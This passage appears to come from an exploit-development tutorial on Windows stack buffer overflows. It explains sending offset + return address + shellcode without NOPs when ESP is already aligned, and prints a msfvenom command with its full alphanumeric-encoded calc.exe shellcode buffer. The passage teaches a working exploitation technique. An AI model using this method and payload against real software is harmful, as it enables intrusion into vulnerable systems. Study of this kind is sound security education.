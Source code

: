 The next step would usually be parsing some nops and introducing our shellcode. However, there is an alternative way to execute shellcode, as the ESP pointer has already been aligned to the EIP, it is possible to generate shellcode that directly works with the ESP pointer, instead of aligning the registers again. Moreover, the introduction of other bytes that are not related with the shellcode (such as a nop, or anything else), will dealign the ESP register.

The sent payload changes from: 

offset + ret + nops + shellcode 

To:

offset + ret + shellcode

In order to perform this, the flag "BufferRegister=REG32" shall be used with msfvenom. Additionally, the shellcode should be generated with alphanumeric bytes, as it will become a completely alphanumeric shellcode instead of the regular one, whose first 6 bytes will always be non-alphanumeric, this done so that the shellcode does not cause any issue.

The shellcode is generated:

```term
root@whitecr0wz:~# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread BufferRegister=ESP 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 440 (iteration=0)
x86/alpha_mixed chosen with final size 440
Payload size: 440 bytes
Final size of py file: 2145 bytes
buf =  b""
buf += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x79\x6c\x48\x68\x6f\x72\x47\x70\x43\x30\x67\x70\x75"
buf += b"\x30\x4e\x69\x48\x65\x55\x61\x59\x50\x51\x74\x4e\x6b"
buf += b"\x32\x70\x64\x70\x4c\x4b\x73\x62\x36\x6c\x6e\x6b\x70"
buf += b"\x52\x76\x74\x6e\x6b\x44\x32\x51\x38\x74\x4f\x4e\x57"
buf += b"\x61\x5a\x65\x76\x76\x51\x49\x6f\x4c\x6c\x67\x4c\x35"
buf += b"\x31\x51\x6c\x47\x72\x34\x6c\x45\x70\x4b\x71\x78\x4f"
buf += b"\x44\x4d\x57\x71\x4b\x77\x49\x72\x39\x62\x42\x72\x53"
buf += b"\x67\x6e\x6b\x70\x52\x62\x30\x6e\x6b\x53\x7a\x45\x6c"
buf += b"\x4e\x6b\x52\x6c\x72\x31\x30\x78\x78\x63\x52\x68\x77"
buf += b"\x71\x58\x51\x50\x51\x4c\x4b\x66\x39\x61\x30\x47\x71"
buf += b"\x7a\x73\x6c\x4b\x77\x39\x47\x68\x5a\x43\x66\x5a\x51"
buf += b"\x59\x4e\x6b\x47\x44\x6c\x4b\x66\x61\x39\x46\x65\x61"
buf += b"\x69\x6f\x6c\x6c\x7a\x61\x7a\x6f\x44\x4d\x46\x61\x6a"
buf += b"\x67\x36\x58\x79\x70\x63\x45\x49\x66\x65\x53\x53\x4d"
buf += b"\x4c\x38\x37\x4b\x53\x4d\x71\x34\x51\x65\x59\x74\x51"
buf += b"\x48\x6c\x4b\x53\x68\x67\x54\x45\x51\x6e\x33\x72\x46"
buf += b"\x6e\x6b\x36\x6c\x72\x6b\x4c\x4b\x63\x68\x45\x4c\x45"
buf += b"\x51\x6b\x63\x4c\x4b\x55\x54\x6c\x4b\x37\x71\x78\x50"
buf += b"\x6e\x69\x50\x44\x55\x74\x75\x74\x73\x6b\x61\x4b\x45"
buf += b"\x31\x63\x69\x53\x6a\x63\x61\x6b\x4f\x6d\x30\x71\x4f"
buf += b"\x53\x6f\x52\x7a\x4e\x6b\x46\x72\x38\x6b\x4c\x4d\x73"
buf += b"\x6d\x62\x4a\x73\x31\x4c\x4d\x6f\x75\x58\x32\x57\x70"
buf += b"\x65\x50\x65\x50\x50\x50\x50\x68\x64\x71\x6e\x6b\x42"
buf += b"\x4f\x4f\x77\x69\x6f\x6a\x75\x4d\x6b\x59\x70\x65\x4d"
buf += b"\x55\x7a\x75\x5a\x75\x38\x6e\x46\x6d\x45\x4d\x6d\x4f"
buf += b"\x6d\x69\x6f\x38\x55\x47\x4c\x65\x56\x33\x4c\x55\x5a"
buf += b"\x6b\x30\x6b\x4b\x59\x70\x54\x35\x73\x35\x4f\x4b\x72"
buf += b"\x67\x37\x63\x50\x72\x30\x6f\x70\x6a\x65\x50\x66\x33"
buf += b"\x49\x6f\x6e\x35\x72\x43\x35\x31\x70\x6c\x33\x53\x64"
buf += b"\x6e\x71\x75\x34\x38\x71\x75\x77\x70\x41\x41"
```